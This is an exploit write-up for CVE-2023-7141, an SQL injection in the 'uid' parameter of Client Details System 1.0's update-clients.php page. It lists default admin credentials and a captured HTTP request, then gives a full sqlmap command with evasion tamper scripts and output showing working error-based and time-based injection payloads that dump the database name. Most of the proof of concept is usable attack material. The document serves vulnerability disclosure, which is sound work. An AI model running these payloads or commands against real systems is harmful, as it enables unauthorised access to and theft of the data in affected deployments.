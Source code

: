 # CVE-2023-7141_Client_Details_System-SQL_Injection_5
+ **Exploit Title:** CVE-2023-7141_Client_Details_System-SQL_Injection_5
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7141

## References: 
+ **CVE-2023-7141:** https://vuldb.com/?id.249144
+ https://www.cve.org/CVERecord?id=CVE-2023-7141

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'uid' in "/clientdetails/admin/update-clients.php?uid=3". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Manage Users: "http://localhost/clientdetails/admin/manage-users.php"
+ Then click Edit button for any user: "http://localhost/clientdetails/admin/update-clients.php?uid=3"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/update-clients.php?uid=3 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/clientview.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'uid' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p uid --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: uid (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uid=3'+(SELECT 0x6c464a42 WHERE 4357=4357 AND (SELECT 4176 FROM(SELECT COUNT(*),CONCAT(0x7178626271,(SELECT (ELT(4176=4176,1))),0x7170626271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))+'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uid=3'+(SELECT 0x6b5a6545 WHERE 9285=9285 AND (SELECT 7542 FROM (SELECT(SLEEP(5)))GfcH))+'
---
[18:14:00] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:14:01] [INFO] fetching current database
[18:14:01] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![5](https://github.com/h4md153v63n/CVEs/assets/5091265/107593ab-0372-4e02-8ce8-727a17c95d5a)
